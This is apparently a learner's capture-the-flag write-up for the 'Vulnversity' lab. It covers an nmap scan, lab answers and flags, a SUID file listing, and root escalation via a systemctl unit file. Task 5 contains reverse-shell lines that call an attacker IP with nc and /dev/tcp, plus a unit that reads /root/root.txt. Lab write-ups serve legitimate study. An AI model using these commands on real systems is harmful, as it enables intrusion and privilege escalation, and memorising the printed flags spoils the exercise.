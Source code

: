 06/16/2025

# Vulnversity
Note: Box seemed very unstable and constantly dropping packets. Ping reponse is less than 70% even after waiting 10 mins. Grrr

# TASK 1

Fire up the box and wait a bit for pings to return
Create working folder and nmap folder

Setup IP variable for simplicity
Export IP=<ip address>
10.10.101.248

# TASK 2

Q. Scan the box; 
#Nmap scan
#nmap -sC -sV -oN nmap/initial $IP

Results

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 20:43 EDT                                    
Nmap scan report for 10.10.82.241                                                                  
Host is up (0.15s latency).                                                                        
Not shown: 994 closed tcp ports (reset)                                                            
PORT     STATE SERVICE     VERSION                                                                 
21/tcp   open  ftp         vsftpd 3.0.5                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)           
| ssh-hostkey: 
|   3072 74:13:9e:22:29:6c:fb:c3:5c:da:c7:80:94:4d:b4:63 (RSA)
|   256 ba:21:a7:b5:4b:38:13:88:27:1f:f1:01:de:48:c0:58 (ECDSA)
|_  256 30:d4:46:5e:ec:78:6d:d6:95:d1:65:0a:6d:b5:23:73 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-06-19T00:44:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-10-82-241, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.62 seconds

Q. How many ports are open?
A> 6

Q. What version of the squid proxy is running on the machine?
A.  4.10

Q. How many ports will Nmap scan if the flag -p-400 was used?
A. 400

Q. What is the most likely operating system this machine is running?
A. Ubuntu

Q. What port is the web server running on?
A. 3333

Q. What is the flag for enabling verbose mode using Nmap?
A. -v

# TASK 3

Q. What is the directory that has an upload form page?
A. /internal/

# TASK 4

Q. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.
A. .php

Q. What extension is allowed after running the above exercise?
A. phtml

Q. What is the name of the user who manages the webserver?
A. bill

Q. What is the user flag?
A. 8bd7992fbe8a6ad22a63361004cfcedb

# TASK 5

Q. On the system, search for all SUID files. Which file stands out?
A. /bin/systemctl

find / -type f -perm -04000 -ls 2>/dev/null
   396628     44 -rwsr-xr-x   1 root     root        41552 Feb  6  2024 /usr/bin/newuidmap
   395578     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   396626     48 -rwsr-xr-x   1 root     root        45648 Feb  6  2024 /usr/bin/newgidmap
   396998    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   400521     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
   400524     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   419923     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   397803     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   400523     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   401943     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   397519    156 -rwsr-xr-x   1 root     root       159304 Jan 15 15:02 /usr/lib/snapd/snap-confine
   419925     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   397315    468 -rwsr-xr-x   1 root     root       477672 Apr 11 08:16 /usr/lib/openssh/ssh-keysign
   401528     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   396651     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   404935    848 -rwsr-xr-x   1 root     root         866448 Feb  3  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   133104     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /bin/su
   133153     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /bin/mount
   133154     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /bin/umount
   131094    976 -rwsr-xr-x   1 root     root         996584 Jun 17  2024 /bin/systemctl
   131086     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /bin/fusermount
      210    177 -rwsr-xr-x   1 root     root         180753 Apr  5 15:10 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /snap/core20/2582/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /snap/core20/2582/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /snap/core20/2582/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /snap/core20/2582/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /snap/core20/2582/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /snap/core20/2582/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /snap/core20/2582/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /snap/core20/2582/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /snap/core20/2582/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-network    51344 Oct 25  2022 /snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Apr 11 08:16 /snap/core20/2582/usr/lib/openssh/ssh-keysign
   393653     48 -rwsr-xr-x   1 root     root               48200 Apr  2 00:10 /sbin/mount.cifs

Q. What is the root flag value?
A. a58ff8579f0a9270368d33a9966c7fd5

https://gtfobins.github.io/gtfobins/systemctl/

Move to a writeable directory - I used /tmp

TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF

'We need to change the ExecStart command so I can create reverse shell as root. This is where my problems started...

Googling around I found 

ExecStart=/bin/sh -c "nc -e /bin/bash 10.2.57.121 9999"
'that didn't work. no -e option
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.57.121/5555 0>&1'
'this didn't work either. "Bad fd number"
'More googling!
'Finally I gave up on reverse shell and just decided to cat out the file and redirect it to a new file in temp I could read

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"

That worked fine. 

REMINDER: I'll need to come back to this once I understand why nc -e isn't available and why bash has trouble with >&
